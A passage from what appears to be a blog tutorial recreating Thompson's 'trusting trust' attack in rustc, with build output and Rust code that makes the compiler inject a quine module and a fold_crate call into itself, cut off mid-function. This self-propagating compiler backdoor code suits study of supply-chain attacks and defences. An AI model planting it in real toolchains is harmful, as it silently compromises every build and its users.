 We also change the original call in `phase_2_configure_and_expand` to `let krate = trust::fold_crate(krate, sess);`

Compiling with `make rustc-stage2` (we now want the backdoored stage1 compiler to try and compile
the same sources and fudge the `phase_2_configure_and_expand` function the second time around), gets us this error:

```
rustc: x86_64-apple-darwin/stage1/lib/rustlib/x86_64-apple-darwin/lib/librustc_driver
error[E0432]: unresolved import `foo::bar::blah`
 --> trust:1:5
  |
1 | use foo::bar::blah;
  |     ^^^^^^^^^^^^^^ Maybe a missing `extern crate foo;`?

error: aborting due to previous error
```

This is exactly what we expected! We inserted the code `use foo::bar::blah;`, which isn't going to
resolve, and thus got a failure when compiling the crate the second time around.

Let's add the code for the quineyness and for inserting the `fold_crate` call:

```rust
fn fold_mod(&mut self, m: Mod) -> Mod {
    let new_items = m.items.move_flat_map(|item| {
        // look for the phase_2_configure_and_expand function
        if item.ident.name.as_str() == "phase_2_configure_and_expand" {
            // construct the code for the module contents as described earlier
            let code_for_module = r###"mod trust { static SELF_STRING: &'static str = r##"###.to_string() + r###"##""### + SELF_STRING + r###""##"### + r###"##;"### + SELF_STRING + "}";
            // Parse it into an AST by creating a crate only containing that code
            let new_crate = parse_crate_from_source_str("trust".into(),
                                                        code_for_module,
                                                        &self.sess.parse_sess).unwrap();
            // extract the AST of the contained module
            let inner_mod = new_crate.module.items[0].clone();

            // now to insert the fold_crate() call
            let item = item.map(|mut i| {
                if let ItemKind::Fn(.., ref mut block) = i.node {
                    *block = block.clone().map(|mut b| {
                        // create a temporary crate just containing a fold_crate call
                        let new_crate = parse_crate_from_source_str("trust".into(),
                                                                    "fn trust() {let krate = trust::fold_crate(krate, sess);}".into(),
                                                                    &self.sess.parse_sess).unwrap();
                        // extract the AST from the parsed temporary crate, shove it in here
                        if let ItemKind::Fn(.., ref blk) = new_crate.module.items[0].node {
                            b.stmts.insert(0, blk.stmts[0].clone());
                        }
                        b
                    });
                }
                i
            });
            // yield both the created module and the modified function to move_flat_map
            vec![inner_mod, item].into_iter()
        } else {
            vec![item].into_iter()
        }
    });
    let m = Mod {
        inner: m.inner,
        items: new_items,
```

 [trust]: https://www.ece.cmu.edu/~ganger/712.fall02/papers/p761-thompson.pdf
 [final-code]: https://github.com/Manishearth/rust/blob/rusting-trust/src/librustc_driver/driver.rs#L541
 [tt-branch]: https://github.com/Manishearth/rust/tree/rusting-trust
 [^1]: Of course, _this_ raises the question of whether or not your assembler/OS/loader/processor is backdoored. Ultimately, you have to trust _someone_, which was partly the point of Thompson's talk.
 [^5]: The AST turns up in the metadata/debuginfo/error messages, can be inspected from the command line, and in general is very far upstream and affects a number of things (all the other stages in the pipeline). You could write code to strip it out from these during inspection and only have it turn up in the binary, but that is much harder.
 [phase1]: https://github.com/rust-lang/rust/blob/1cabe2151299c63497abc3a20bd08c04c0cd32a3/src/librustc_driver/driver.rs#L485
 [phase2]: https://github.com/rust-lang/rust/blob/1cabe2151299c63497abc3a20bd08c04c0cd32a3/src/librustc_driver/driver.rs#L546
 [`syntax::fold`]: http://manishearth.github.io/rust-internals-docs/syntax/fold/
 [`Folder`]: http://manishearth.github.io/rust-internals-docs/syntax/fold/trait.Folder.html
 [^2]: The local variable is called `krate` because `crate` is a keyword
 [^3]: Stage 1 takes the downloaded (older) rust compiler and compiles the sources from it. The stage 2 compiler is build when the stage 1 compiler (which is a "new" compiler) is used to compile the sources again.
 [quines]: https://en.wikipedia.org/wiki/Quine_(computing)
 [final-code]: https://github.com/Manishearth/rust/blob/rusting-trust/src/librustc_driver/driver.rs#L541
 [^7]: The numbering of the stages is a bit confusing. During "stage 0" (`cfg(stage0)`), the stage 1 compiler is _built_. Since you are building the stage 1 compiler, the make invocation is `make rustc-stage1`. Similarly, during stage 1, the stage 2 compiler is built, and the invocation is `make rustc-stage2` but you use `#[cfg(stage1)]` in the code.
 [^4]: Using it on the `fold_crate` call requires enabling the "attributes on statements" feature, but that's no big deal -- we're only using the cfgs to be able to test easily; this feature won't actually be required if we use our stage1 compiler to compile a clean clone of the sources.
 [ddc]: http://www.acsa-admin.org/countering-trusting-trust-through-diverse-double-compiling/